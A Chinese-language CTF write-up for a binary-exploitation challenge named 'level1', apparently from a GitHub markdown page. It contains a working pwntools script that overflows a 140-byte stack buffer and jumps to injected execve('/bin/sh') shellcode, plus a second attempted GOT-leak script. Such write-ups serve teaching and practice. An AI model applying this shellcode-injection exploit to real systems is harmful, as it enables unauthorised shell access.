


# level1

检查程序保护



反汇编



栈可执行，那么直接上shellcode

```python
from pwn import *
import time

sh = process('./level1')

#gdb.attach(sh)
#sleep(15)

data = sh.recvline()
#获取buf地址
buff_address_byte = data.split(b'x')[1].split(b'?')[0]
buff_address_int = int(buff_address_byte, 16)
#系统调用汇编
shellcode = asm("""
xor ecx,ecx;
push ecx;
push 0x0068732f;
push 0x6e69622f;
mov ebx,esp;
mov eax,0xb;
xor edx,edx
int 0x80"""
)
#计算汇编字节长度
length = len(shellcode)
#将shellcode写到buf中，填充buf直到溢出点，返回到buf处执行shellcode
payload = flat([shellcode,b'a'*(140-length),p32(buff_address_int)])

sh.send(payload)
sh.interactive()
```

思考：

既然可以打印地址，我想换种思路泄露got表应该也可以

尝试着写了一下，发现printf函数不能像puts函数打印出地址里的内容，泄露got的思路可能行不通

```python
from pwn import *
import time


sh = process('./level1')
elf = ELF('./level1')

#gdb.attach(sh)
#sleep(15)

libc_start_main_got = elf.got['__libc_start_main']
printf_plt = elf.plt['printf']
main_address = elf.symbols['main']
format_address = 0x08048570
#接收第一句话
data = sh.recvline()
print(data)
#                            溢出点            返回地址           参数1                 参数2                         
#                        再次执行printf函数  返回到main函数       format地址      拿到libc_start_main实现地址用于泄露system                                
payload = flat([b'a'*140,p32(printf_plt),p32(main_address),p32(format_address),p32(libc_start_main_got)])
sh.send(payload)
data = sh.recvline()
print(data)


sh.interactive()
```

